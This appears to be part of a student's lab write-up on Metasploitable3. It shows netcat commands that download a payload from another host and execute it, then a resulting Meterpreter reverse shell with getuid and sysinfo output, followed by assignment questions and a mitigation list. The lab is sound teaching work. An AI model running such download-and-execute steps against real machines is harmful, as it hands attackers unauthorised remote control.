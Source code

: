 shift over to your target machine and type

```console
vagrant:~$ nc 10.0.2.15 1337 > payload.elf # Connecting to the port
vagrant:~$ chmod a+x ./payload.elf # Making the file executable
vagrant:~$ ./payload.elf # Running the executable
```
aaand back to the host again

```console
meterpreter:~$ ls # Testing connection
```
Boom pwned!

# Enjoying Your Connection
Getting the username

```console
meterpreter:~$ getuid
```

Getting system info
```console
meterpreter:~$ sysinfo
```

[Other Metasploit commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/).

**Questions**  
**How you tested the vulnerability in Metasploitable3. Provide information obtained from "sysinfo" to prove that you did get access into the specific machine.**

```console
berkankutuk@kali:~$ sysinfo
Computer     : 10.0.2.4
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

**What the vulnerability or security problem really is**  
Reverse shell

**Explain whether Metasploitable3 is vulnerable to this exploit.**  
?

**Explain how your client that is using the vulnerable machine (Metasploitable3) should mitigate the risks of falling prey to this exploit.**  
1. Educate staff into not opening random files on their computer
2. Use anti virus software that can run the software in a sandbox
3. Software restriction policies
4. Disable .exe files to run from specified directories
5. Setup a firewall
6. Never give admin acess to end users
7. Segregate network
